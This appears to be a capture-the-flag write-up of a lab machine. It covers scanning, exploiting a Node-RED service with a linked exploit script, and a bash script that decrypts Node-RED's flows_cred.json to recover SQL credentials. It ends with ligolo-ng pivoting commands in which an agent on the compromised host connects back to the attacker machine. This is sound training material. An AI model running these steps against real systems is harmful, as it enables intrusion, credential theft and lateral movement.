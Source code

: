 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

![image](https://github.com/reneanto/write-ups/assets/44943249/5def2930-6800-4a94-a52e-0a938e3747ed)
```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application
## Pivoting

* navigate to /tmp on nodered as a good practice
* then use `ligolo-ng` to pivot

```bash
#on attacker machine
sudo ip tuntap add user rzgami mode tun ligolo
sudo ip link set ligolo up
./proxy --selfcert

#on nodered
./agent -connect $IP:11601 -ignore-cert

#on attacker machine
ligolo-ng>session
sudo ip route add 10.10.x.230/32 dev ligolo
sudo ip route add 10.10.x.229/32 dev ligolo
ligolo-ng>start
```